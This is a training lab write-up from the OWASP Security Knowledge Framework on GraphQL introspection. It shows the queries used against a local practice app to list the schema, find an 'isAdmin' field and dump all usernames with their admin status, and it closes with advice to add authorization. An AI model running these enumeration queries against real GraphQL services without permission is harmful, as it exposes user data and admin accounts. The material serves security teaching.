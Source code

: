 # KBID 285 - GraphQL Introspection

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:graphql-info-introspection
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:graphql-info-introspection
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker Image and write-up thanks to defev!](../../.gitbook/assets/logo.defdev.1608z.whtonblk.256.png)

## Reconnaissance

As soon as we browse on `http://0.0.0.0:5000` we see the few posts published by 2 users

![](../../.gitbook/assets/graphql-introspection1.png)

## Exploitation

We want to use the introspection feature (enabled) in this case, to understand more about what queries are supported.

Let' use the `GraphiQL` UI to send queries to the backend and discover what is available.

Go to `http://0.0.0.0:5000/graphql`. We can query the generic `__schema` using:

```
{
  __schema {
    types {
      name
    }
  }
}
```

The application gives us interesting `Types`. Let's explore the `UserObject` one. If we build a more complex query we can ask for more information, exploring every field available. Let's send the following:

```
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
        ofType {
          name
          kind
        }
      }
    }
  }
}
```

In this case, for each field we we want to know what are the subfields and of which type.

The application will answer with:

```javascript
{
  "data": {
    "__type": {
      "name": "UserObject",
      "fields": [
        {
          "name": "uuid",
          "type": {
            "name": null,
            "kind": "NON_NULL",
            "ofType": {
              "name": "ID",
              "kind": "SCALAR"
            }
          }
        },
        {
          "name": "username",
          "type": {
            "name": "String",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "isAdmin",
          "type": {
            "name": "Boolean",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "posts",
          "type": {
            "name": "PostObjectConnection",
            "kind": "OBJECT",
            "ofType": null
          }
        },
        {
          "name": "id",
          "type": {
            "name": null,
            "kind": "NON_NULL",
            "ofType": {
              "name": "ID",
              "kind": "SCALAR"
            }
          }
        }
      ]
    }
  }
}
```

> BINGO! We have some good information here

We can see that there is an interesting field `isAdmin`, that we can use to find out who is the admin of the application.

Now we just need to query all the Users. To do that, let's see if there is a query available. We can use the following syntax:

```
query availableQueries {
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}
```

That will give us the `allUsers` query. Now we need to understand what are the fields. We can do that in different ways, using GraphiQL or doing some more introspection. In this case we use GraphiQL, sending the following query:

```
{
  allUsers {
    edges {
      node {
        username
        isAdmin
      }
    }
  }
}
```

## Solution

Implement authorization on graphql endpoint. Although authenticated users could query the information, you should not map sensitive information into the type defined into the schema.

## Additional resources
